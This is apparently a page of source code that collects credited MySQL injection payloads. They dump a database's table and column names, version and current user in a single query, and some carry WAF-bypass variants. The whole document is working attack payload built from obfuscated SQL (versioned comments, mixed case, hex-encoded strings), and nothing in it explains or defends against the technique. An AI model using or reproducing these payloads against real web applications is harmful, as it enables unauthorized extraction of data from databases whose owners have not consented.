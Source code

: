 ```sql
(select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)

-- Dr.Z3r0
(select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@))

-- M@dBl00d
(Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))

-- Zen
+make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Zen WAF
(/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a)

-- ~tr0jAn WAF
+concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a207e7472306a416e2a2044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r%2b1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number%2b1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/+

-- ~tr0jAn Benchmark
+concat(0x3c666f6e7420636f6c6f723d7265643e3c62723e3c62723e7e7472306a416e2a203a3a3c666f6e7420636f6c6f723d626c75653e20,version(),0x3c62723e546f74616c204e756d626572204f6620446174616261736573203a3a20,(select count(*) from information_schema.schemata),0x3c2f666f6e743e3c2f666f6e743e,0x202d2d203a2d20,concat(@sc:=0x00,@scc:=0x00,@r:=0,benchmark(@a:=(select count(*) from information_schema.schemata),@scc:=concat(@scc,0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d7265643e,LPAD(@r:=@r%2b1,3,0x30),0x2e20,(Select concat(0x3c623e,@sc:=schema_name,0x3c2f623e) from information_schema.schemata where schema_name>@sc order by schema_name limit 1),0x202028204e756d626572204f66205461626c657320496e204461746162617365203a3a20,(select count(*) from information_Schema.tables where table_schema=@sc),0x29,0x3c2f666f6e743e,0x202e2e2e20 ,@t:=0x00,@tt:=0x00,@tr:=0,benchmark((select count(*) from information_Schema.tables where table_schema=@sc),@tt:=concat(@tt,0x3c62723e,0x3c666f6e7420636f6c6f723d677265656e3e,LPAD(@tr:=@tr%2b1,3,0x30),0x2e20,(select concat(0x3c623e,@t:=table_name,0x3c2f623e) from information_Schema.tables where table_schema=@sc and table_name>@t order by table_name limit 1),0x203a20284e756d626572204f6620436f6c756d6e7320496e207461626c65203a3a20,(select count(*) from information_Schema.columns where table_name=@t),0x29,0x3c2f666f6e743e,0x202d2d3a20,@c:=0x00,@cc:=0x00,@cr:=0,benchmark((Select count(*) from information_schema.columns where table_schema=@sc and table_name=@t),@cc:=concat(@cc,0x3c62723e,0x3c666f6e7420636f6c6f723d707572706c653e,LPAD(@cr:=@cr%2b1,3,0x30),0x2e20,(Select (@c:=column_name) from information_schema.columns where table_schema=@sc and table_name=@t and column_name>@c order by column_name LIMIT 1),0x3c2f666f6e743e)),@cc,0x3c62723e)),@tt)),@scc),0x3c62723e3c62723e,0x3c62723e3c62723e)+

-- N1Z4M WAF
```